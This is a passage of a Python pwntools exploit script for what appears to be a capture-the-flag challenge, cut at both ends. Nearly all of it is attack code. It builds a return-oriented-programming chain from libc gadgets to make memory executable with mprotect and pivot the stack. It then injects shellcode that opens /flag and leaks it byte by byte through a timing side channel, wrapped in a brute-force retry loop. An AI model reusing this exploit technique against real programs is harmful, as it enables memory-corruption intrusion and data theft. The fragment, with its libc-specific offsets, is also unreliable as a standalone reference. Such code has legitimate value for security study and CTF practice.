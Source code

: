 ```python
        pop rsi
        push 0x100
        pop rdx
        syscall
        jmp rsi
    '''
    pop_rdi_ret = libc_base + 0x26bb2
    pop_rsi_ret = libc_base + 0x2709c
    pop_rdx_r12_ret = libc_base + 0x11c421
    mprotect_addr = libc_base + libc.sym['mprotect']
    pl = p64(pop_rdi_ret) + p64(bss_addr & 0xfffff000) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7) + p64(0) + p64(mprotect_addr)
    pl += p64(bss_addr + len(pl) + 8) + asm(shellcode_read)
    pl = pl.ljust(0x80, b'\x00') + p64(bss_addr - 8) + p64(leave_addr)
    sleep(0.1)
    s(pl)

    shellcode_main = f'''
        /* close(0) */
        push 3
        pop rax
        xor rdi, rdi
        syscall
        /* openat("/flag") */
        push 257
        pop rax
        /* ( absolute path ) */
        mov rsi, 0x67616c662f
        push rsi
        mov rsi, rsp
        /*
        ( relative path )
        push -100
        pop rdi
        push 0x67616c66
        push rsp
        pop rsi
        */
        syscall
        /* read flag */
        xor rax, rax
        xor rdi, rdi
        mov rsi, rsp
        push 0x50
        pop rdx
        syscall
        /* blow up flag */
        mov al, byte ptr[rsi+{pos}]
        cmp al, {char}
        ja $-2
        ret
    '''
    sleep(0.1)
    s(asm(shellcode_main))

'''
i = 0
while 1:
    i += 1
    log.warn(str(i))
    try:  
        pwn()
    except Exception:
```
